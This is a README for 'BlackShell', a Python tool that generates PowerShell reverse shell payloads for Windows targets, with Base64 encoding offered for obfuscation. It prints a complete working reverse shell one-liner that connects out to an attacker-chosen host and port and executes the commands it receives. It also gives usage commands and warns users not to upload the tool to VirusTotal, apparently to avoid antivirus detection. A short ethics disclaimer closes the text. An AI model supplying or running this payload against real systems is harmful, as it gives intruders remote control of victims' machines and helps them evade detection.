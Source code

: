 # BlackShell - Reverse Shell Generator

BlackShell is a Python script designed to generate a reverse shell payload in PowerShell for Windows targets. It allows penetration testers and ethical hackers to quickly generate custom reverse shell scripts to establish a connection to a remote host.
Features:

    - Reverse Shell Generation: Easily generate a reverse shell payload in PowerShell.
    - Customizable Payload: Specify the hostname and port to connect to.
    - Base64 Encoding: Encode the payload using Base64 for obfuscation.

## Usage:

```bash
python3 blackshell.py -H <hostname/ip:port>
```
## Example:

```bash
python3 blackshell.py -H 192.168.1.100:4444
```

This will generate a PowerShell script that establishes a reverse shell connection to the specified host and port.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Note: Ensure that you have permission to perform penetration testing and always use this tool responsibly and ethically. DO NOT UPLOAD TO VIRUS TOTAL!
